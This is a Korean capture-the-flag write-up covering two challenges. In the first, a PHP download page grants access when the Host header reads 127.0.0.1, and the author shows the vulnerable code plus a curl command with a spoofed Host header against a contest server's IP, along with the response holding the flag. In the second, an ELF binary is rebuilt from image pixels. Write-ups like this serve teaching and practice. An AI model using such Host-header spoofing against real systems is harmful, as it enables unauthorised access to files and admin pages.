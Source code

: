 - 누구나 password를 설정해서 파일을 업로드할 수 있음
- 숨겨져 있는 어드민 페이지에 가면 storage의 파일 리스트를 볼 수 있음
- FLAG의 게시물 id는 00000000000000000000000000000000

```php
if($_GET['password'] != $password) {
  if($_SERVER['HTTP_HOST'] != "127.0.0.1") {
    echo "FAIL - Password Error";
    exit(-1);
  }
}
```

- 힌트로 공개된 소스코드 중 `download.php`에는 위와 같은 부분이 있는데, 패스워드가 틀려도 로컬호스트라면 파일을 그냥 열어준다.

```js
if("<?php echo $_SERVER['HTTP_HOST']; ?>" === "127.0.0.1") {
  $("#admin").show();
}
```

- 쉽게 bypass할 수 있었지만 `index.php`에서도 로컬호스트로 들어오면 어드민 페이지 링크를 show해주는 코드가 있었다.

`$_SERVER[HTTP-HOST]`를 변조하면 되겠다고 생각하고(지금은 기억나지 않는 문제 내용에서도 관리자로 접속하라는 것을 계속 암시하는 것 같았음) 구글링과 curl을 사용해서 풀었음
```
 junhoyeo@Macbookui-MBP  ~/Desktop  curl --verbose --header 'Host: 127.0.0.1' 'http://121.170.91.14/4e818133cd4413425429613b06a55453/download.php?id=00000000000000000000000000000000' 
*   Trying 121.170.91.14...
* TCP_NODELAY set
* Connected to 121.170.91.14 (121.170.91.14) port 80 (#0)
> GET /4e818133cd4413425429613b06a55453/download.php?id=00000000000000000000000000000000 HTTP/1.1
> Host: 127.0.0.1
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Fri, 20 Jul 2018 03:33:44 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Content-Transfer-Encoding: Binary
< Content-disposition: attachment; filename="00000000000000000000000000000000"
< Content-Length: 19
< Content-Type: application/octet-stream
< 
dimi{iamlocalhost}
* Connection #0 to host 121.170.91.14 left intact
```

`dimi{iamlocalhost}`

## image
힌트가 `each pixel`이였다. 각각의 픽셀에 대해서 RGB값 구해서 순서대로 이어붙여서 바이너리 파일로 저장하면 ELF 파일이 나온다. 리눅스 시스템에서 실행하면 바로 Flag가 나온다.

```
root@goorm:/workspace/JunhoYeo# chmod +x prob_data
root@goorm:/workspace/JunhoYeo# file prob_data
prob_data: ELF 64-bit LSB  executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=399d90455fbe2b7c214a7fcfc5eb6058a6961e69, not stripped
root@goorm:/workspace/JunhoYeo# ./prob_data
dimi{ELF_!N_1M4G3}   
```
